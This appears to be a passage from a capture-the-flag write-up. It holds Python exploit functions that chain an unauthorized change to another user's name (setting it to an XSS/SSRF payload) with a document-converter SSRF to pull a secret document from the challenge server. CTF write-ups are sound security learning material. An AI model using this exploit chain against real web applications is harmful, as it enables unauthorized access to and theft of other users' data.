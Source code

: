```python
        
    sec_acc_response = session_second_acc.get(CTF_URL + '/settings')
    
    if sec_acc_response.status_code == 200:
        sec_user_id = re.findall('"user_id" value="(.*?)"',sec_acc_response.text)[0]
        print('[*] Second user id: ' + sec_user_id)
        return sec_user_id
    else:
        raise Exception()
```

### Change second user's name to SSRF

```python
def update_name(user_id):
    global session_jobert, csrf_jobert, CTF_URL, review_id, XSS_SSRF
    
    update_response = session_jobert.post(CTF_URL + '/support/review/' + review_id, data={"user_id": user_id, \
                                            "name": XSS_SSRF, "_csrf_token": csrf_jobert}, verify=False)
    
    if update_response.status_code == 200:
        print('[*] Name changed.')
        return True
    else:
        raise Exception()
```

### Convert a doc to trigger SSRF

```python
def converter(img_name):
    global session_second_acc, csrf_second, CTF_URL

    converter_response = session_second_acc.post(CTF_URL + '/converter', \
                        files={"document":("imagem.png",open(img_name,'rb'),'image/png')},\
                        data={"_csrf_token":csrf_second},\
                        verify=False, allow_redirects=False)
    if converter_response.status_code == 302:
        print('[*] Sent a converter request.')
        return True
    else:
        raise Exception()
```

### Get secret document URL

```python
def get_last_document():
    global session_second_acc, CTF_URL
    
    print('[*] Getting the document...')
    
    doc_response = session_second_acc.get(CTF_URL + '/documents', verify=False)
    doc_url = re.findall('src="(.*?)"',doc_response.text)[0]
    doc_url = doc_url.replace('-thumb.png','')
    print('[*] Document URL: ' + doc_url)
    
    doc = session_second_acc.get(CTF_URL + doc_url, verify=False)
    open(REMOTE_DEBUG_FILENAME,'wb').write(doc.content)
    
    print('[*] Document saved locally as ' + REMOTE_DEBUG_FILENAME)
    return doc_url

```